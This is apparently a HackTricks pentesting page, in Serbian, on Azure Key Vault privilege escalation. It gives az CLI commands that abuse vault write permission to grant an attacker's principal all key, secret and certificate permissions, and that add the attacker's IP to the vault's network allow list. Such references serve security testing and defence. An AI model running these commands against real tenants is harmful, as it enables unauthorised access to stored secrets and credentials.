 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

Za više informacija o ovoj usluzi pogledajte:

{{#ref}}
../az-services/az-keyvault.md
{{#endref}}

### `Microsoft.KeyVault/vaults/write`

Napadač sa ovom dozvolom će moći da izmeni politiku ključnog trezora (ključni trezor mora koristiti pristupne politike umesto RBAC-a).
```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
--name <vault-name> \
--object-id <your-object-id> \
--key-permissions all \
--secret-permissions all \
--certificate-permissions all \
--storage-permissions all
```
### Modify Network Restrictions

Možda imate dovoljno dozvola da pristupite osetljivim podacima (kao što je vrednost tajne), ali ne možete da mu pristupite jer je ključna riznica ograničena na određenu mrežu. Ako imate dozvolu da modifikujete mrežna ograničenja, možete dodati svoju IP adresu na listu dozvoljenih IP adresa.
```bash
# Get the current network restrictions
az keyvault network-rule list --name <vault-name>

# Add your IP to the list
az keyvault network-rule add --name <vault-name> --ip-address <your-ip>
```
{{#include ../../../banners/hacktricks-training.md}}
